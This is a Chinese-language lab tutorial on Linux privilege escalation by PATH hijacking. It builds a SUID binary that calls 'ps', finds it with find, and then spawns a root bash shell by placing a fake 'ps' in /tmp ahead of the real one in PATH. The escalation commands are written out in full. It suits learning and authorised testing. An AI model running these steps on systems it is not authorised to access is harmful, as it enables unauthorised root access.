





# 利用环境变量提权

> 利用关键在于找到具有SUID权限的文件，环境变量中有自己能控制的路径，比如当前目录(.)
>
> 详细文章参考：<https://xz.aliyun.com/t/2767>

**PATH** 是Linux 和 Unix 操作系统中的环境变量，它指定存储可执行程序的所有bin和sbin目录。当用户在终端上执行任何命令时，它会通过PATH变量来响应用户执行的命令，并向shell发送请求以搜索可执行文件。超级用户通常还具有/sbin和/usr/sbin条目，以便于系统管理命令的执行。

使用echo命令显示当前PATH环境变量：

``

**测试：**

**环境配置：**

现在我们的当前目录是/home/yokan，我们将在当前目录下创建一个srcipt目录。然后cd到script目录中，编写一个简单的c程序来调用系统二进制文件的函数。

```
pwd
mkdir script
cd /script
nano demo.c
```

demo.c文件内容如下图，你可以看到，我们调用了ps命令，即系统二进制文件:



然后使用gcc命令编译demo.c文件并且赋予编译文件SUID权限，命令如下：

```
gcc demo.c -o shell    #需要以root权限编译
chmod u+s shell
ls -la shell
```



**攻击利用**：

首先，你需要先入侵靶机系统并且进入到提权阶段。假设你已经通过ssh成功登录到了靶机上，二话不说，我们直接使用find命令来搜索具有SUID或4000权限的文件。

```
find / -perm -u=s -type f 2>/dev/null
```

通过执行上述命令，攻击者可以遍历任何可执行文件，在这里我们可以看到/home/yokan/script目录下的shell文件具有SUID权限，如图：


于是我们cd到/home/yokan/script/目录下，ls一下，看到了名为shell的可执行文件。我们运行一下这个文件，可以看到shell文件尝试执行ps命令，这个命令是/bin目录下的用来查看进程状态的真实文件。

```
ls
./shell
```



提权：

echo命令

```
cd /tmp
echo “/bin/bash” > ps
chmod 777 ps
echo $PATH
export PATH=/tmp:$PATH
cd /home/yokan/script
./shell
whoami
```


